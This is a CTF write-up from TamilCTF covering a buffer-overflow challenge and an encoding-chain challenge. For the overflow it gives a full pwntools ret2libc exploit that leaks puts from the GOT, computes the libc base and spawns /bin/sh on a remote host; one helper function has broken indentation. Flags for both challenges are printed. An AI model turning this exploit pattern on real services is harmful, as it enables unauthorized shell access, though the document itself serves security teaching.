 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930134637.png)



*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}





# Bases 485 Points ,22 solves

***We are give a file encoded in some randome gibrish***
```bash
╭─ ~/Desktop/Tamilctf/bases │ sam0x@parrot                                                                                                                                                 ✔ 
╰─ cat file.txt 
噯缾𔔸𠅻診噩ꔻꕳ𔔯煐鸩𠅙欫葦葔踥慚灩ꉊ蠫噰噷葌鹀𓈻𖤨𐘱𔑬訮桷陦ꄷ橪鰨𔔫ꉕ蔥𖠻𖡻詓败捄堲絠浩怦𔑢蝂潣縨𓌩蹗襠ꅮ洱𒀰萵饌鍟𒀲橒昻萳靓𔕧罀ᕣ
```

***After a bit of researching and previous ctf ideas found out that this  is a base65536 encoded file ***
***BASE65536 as per records:***
	- Base65536 is a binary encoding optimised for UTF-32-encoded text. (For transmitting data through Twitter, Base65536 is now considered obsolete; see 		- Base2048.) This JavaScript module, base65536, is the first implementation of this encoding.
	- Base65536 uses only "safe" Unicode code points - no unassigned code points, no whitespace, no control characters, etc..
	
## To deocde the base65536 we first convert it into a unicode using npm module of base65536
```javascript
	import { encode, decode } from 'base65536'
import fs from 'fs'

var  data=fs.readFileSync('file.txt').toString('utf-8')
var decoded = new Uint8Array(decode(data))

fs.writeFileSync('out',decoded)
```
__This gives us a decoded output : 26p0EtovXlssmYqbk1UON3JCIFVyYW3V3culA1cJ0AJ8mHvzgWbefttYEpfYlcpt9nh3oZiaWI24d0jzcxBOdq0Ybes3EKUw7GEEfLYM0qpp___
 	- This doesnt look like any known base encodings 
	- After a bit of googling found out that this is a base91 encoded value

Fun thing ***Found a github repo that finds and deocdes the known basex values***

[Github](https://github.com/mufeedvh/basecrack)
	
**After that thats a matter of multiple times of decoding**
	- The order goes like BASE65535->BASE91->BASE62->BASE32->ASCII85->FLAG
***FLAG***
## TamilCTF{B4s3_C1ph3r_4r3_re4lly_c00l!!}
